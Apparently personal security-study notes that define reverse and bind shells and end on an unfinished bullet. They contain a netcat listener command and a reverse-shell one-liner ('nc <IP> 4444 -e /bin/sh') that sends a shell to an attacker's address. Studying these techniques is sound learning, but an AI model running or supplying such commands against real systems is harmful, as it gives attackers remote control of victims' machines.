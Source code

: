 Define different types of shells and different types of payloads we will see

## Shell
Most common shell is a [[reverse shell]]
- This means a victim connects to us. 
- Attack box is listening
This is what happens
- Attack box is listening
	- `nc -lnvp 4444`
		- This says NetCat, I am listening verbosely on port 4444
- Target box sends connection
	- `NC <IP-Address> 4444 -e /bin/sh`
		- sends out a connection with NetCat `nc`
Bind Shell - this is what happens
- Open up a port on the machine, then connect to it.
	- Fire off exploit
	- open port
	- connect
- 